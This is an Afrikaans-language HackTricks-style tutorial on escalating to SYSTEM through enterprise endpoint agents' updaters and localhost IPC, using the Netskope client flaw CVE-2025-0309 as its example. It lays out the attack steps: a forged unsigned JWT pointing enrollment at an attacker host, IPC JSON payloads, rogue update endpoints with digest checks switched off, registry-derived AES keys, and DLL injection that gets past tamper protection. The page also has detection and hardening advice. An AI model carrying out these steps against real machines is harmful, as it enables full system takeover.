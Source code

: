# Misbruik van Enterprise Auto-Updaters en Geprivilegieerde IPC (bv., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Hierdie bladsy veralgemeen ’n klas Windows lokale privilege‑escalation kettings wat gevind word in enterprise endpoint agents en updaters wat ’n laag‑friksie IPC‑oppervlak en ’n geprivilegieerde update‑vloei blootstel. ’n Reprensentatiewe voorbeeld is Netskope Client for Windows < R129 (CVE-2025-0309), waar ’n laag‑geprivilegieerde gebruiker inskrywing na ’n aanvaller‑beheer­de bediener kan afdwing en daarna ’n kwaadaardige MSI kan lewer wat die SYSTEM‑diens installeer.

Belangrike idees wat jy teen soortgelyke produkte kan hergebruik:
- Misbruik ’n geprivilegieerde diens se localhost IPC om her‑inskrywing of herkonfigurering na ’n aanvaller‑bediener af te dwing.
- Implementeer die vendor se update‑endpoints, lewer ’n rogue Trusted Root CA, en punt die updater na ’n kwaadwillige, “signed” pakket.
- Ontduik swak signer checks (CN allow‑lists), opsionele digest‑vlae, en laks MSI‑eienskappe.
- As IPC “encrypted” is, lei die key/IV af vanaf wêreld‑leesbare masjien‑identifiseerders wat in die registry gestoor is.
- As die diens oproepers beperk volgens image path/process name, inject in ’n allow‑listed proses of spawn een geskors en bootstrap jou DLL via ’n minimale thread‑context patch.

---
## 1) Forceer inskrywing na ’n aanvaller‑bediener via localhost IPC

Baie agents lewer ’n user‑mode UI‑proses wat met ’n SYSTEM‑diens oor localhost TCP kommunikeer met JSON.

Waargeneem in Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Uitbuitingsvloei:
1) Skryf ’n JWT enrollment token waarvan die claims die backend‑host beheer (bv., AddonUrl). Gebruik alg=None sodat geen signature vereis word nie.
2) Stuur die IPC‑boodskap wat die provisioning‑opdrag aanroep met jou JWT en tenant‑naam:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Die diens begin jou rogue server vir enrollment/config te kontak, bv.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Aantekeninge:
- If caller verification is path/name‑based, originate the request from a allow‑listed vendor binary (see §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

Sodra die client met jou bediener kommunikeer, implementeer die verwagte endpoints en lei dit na 'n attacker MSI. Tipiese volgorde:

1) /v2/config/org/clientconfig → Gee JSON-config terug met 'n baie kort updater-interval, bv.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Gee 'n PEM CA sertifikaat terug. Die diens installeer dit in die Local Machine Trusted Root store.  
3) /v2/checkupdate → Verskaf metadata wat na 'n kwaadwillige MSI en 'n valse weergawe wys.

Bypass van algemene kontroles wat in die veld aangetref word:
- Signer CN allow‑list: die diens mag slegs die Subject CN nagaan of dit gelyk is aan “netSkope Inc” of “Netskope, Inc.”. Jou eensindige CA kan 'n leaf-sertifikaat met daardie CN uitreik en die MSI teken.
- CERT_DIGEST-eienskap: sluit 'n onskadelike MSI-eienskap met die naam CERT_DIGEST in. Geen afdwinging tydens installasie nie.
- Opsionele digest-afdwinging: config-vlag (bv., check_msi_digest=false) skakel ekstra kryptografiese validering af.

Resultaat: die SYSTEM-diens installeer jou MSI vanaf
C:\ProgramData\Netskope\stAgent\data\*.msi
en voer ewekansige kode uit as NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

Vanaf R127 het Netskope IPC JSON in 'n encryptData-veld toegedraai wat soos Base64 lyk. Reversing het gewys op AES met key/IV afgelei van registerwaardes wat deur enige gebruiker gelees kan word:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Aanvallers kan die enkripsie reproduseer en geldige, geënkripteerde opdragte vanaf 'n standaardgebruiker stuur. Algemene wenk: as 'n agent skielik sy IPC "enkripteer", kyk vir device IDs, product GUIDs, install IDs onder HKLM as materiaal.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Sommige dienste probeer die peer autentiseer deur die TCP-verbinding se PID op te los en die image path/name te vergelyk met 'n allow‑list van vendor-binaries onder Program Files (bv. stagentui.exe, bwansvc.exe, epdlp.exe).

Twee praktiese omseilings:
- DLL-injektie in 'n toegelate proses (bv. nsdiag.exe) en proxy IPC van binne dit.
- Spawn 'n toegelate binêre gesuspendeer en bootstrap jou proxy DLL sonder CreateRemoteThread (sien §5) om bestuurder-afgedwingde manipulasie-reëls te bevredig.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Produkte bevat dikwels 'n minifilter/OB callbacks driver (bv. Stadrv) wat gevaarlike regte van handvatsels na beskermde prosesse verwyder:
- Process: verwyder PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: beperk tot THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

'n Betroubare user‑mode loader wat hierdie beperkings respekteer:
1) CreateProcess van 'n vendor-binary met CREATE_SUSPENDED.
2) Verkry handvatsels wat jy nog toegelaat is: PROCESS_VM_WRITE | PROCESS_VM_OPERATION op die proses, en 'n thread-handle met THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (of net THREAD_RESUME as jy kode by 'n bekende RIP patch).
3) Oorskryf ntdll!NtContinue (of 'n ander vroeë, gewaarborgde-gelaaide thunk) met 'n klein stub wat LoadLibraryW op jou DLL-pad aanroep, en dan terug spring.
4) ResumeThread om jou stub in‑proses te trigger en jou DLL te laai.

Omdat jy nooit PROCESS_CREATE_THREAD of PROCESS_SUSPEND_RESUME op 'n reeds-beskermde proses gebruik het nie (jy het dit geskep), word die bestuurder se beleid bevredig.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) outomatiseer 'n rogue CA, kwaadwillige MSI-ondertekening, en bedien die nodige endpoints: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope is 'n custom IPC client wat arbitraire (opsioneel AES‑geënkripteerde) IPC-boodskappe skep en die gesuspendeerde‑proses injeksie insluit om van 'n allow‑listed binary te originate.

---
## 7) Detection opportunities (blue team)
- Monitor toevoegings aan Local Machine Trusted Root. Sysmon + registry‑mod eventing (sien SpecterOps guidance) werk goed.
- Merk MSI-uitvoerings wat deur die agent se diens geïnisieer word vanaf paaie soos C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Hersien agentlogs vir onverwante enrollment hosts/tenants, bv.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – kyk vir addonUrl / tenant anomalieë en provisioning msg 148.
- Waarschuw vir localhost IPC-kliente wat nie die verwagte signed binaries is nie, of wat uit vreemde child process-boom gewortel is.

---
## Hardening tips for vendors
- Bind enrollment/update hosts aan 'n streng allow‑list; verwerp onbetroubare domeine in clientkode.
- Authenticate IPC peers met OS-primitive (ALPC security, named‑pipe SIDs) in plaas van image path/name kontroles.
- Hou geheime materiaal uit wêreld-leesbare HKLM; as IPC geënkripteer moet wees, lei sleutels af van beskermde geheime of onderhandel oor geauthentiseerde kanale.
- Behandel die updater as 'n supply‑chain surface: vereis 'n volle ketting na 'n vertroude CA wat jy beheer, verifieer pakkethandtekenings teen gepinde sleutels, en fail closed as validering in die config gedeaktiveer is.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
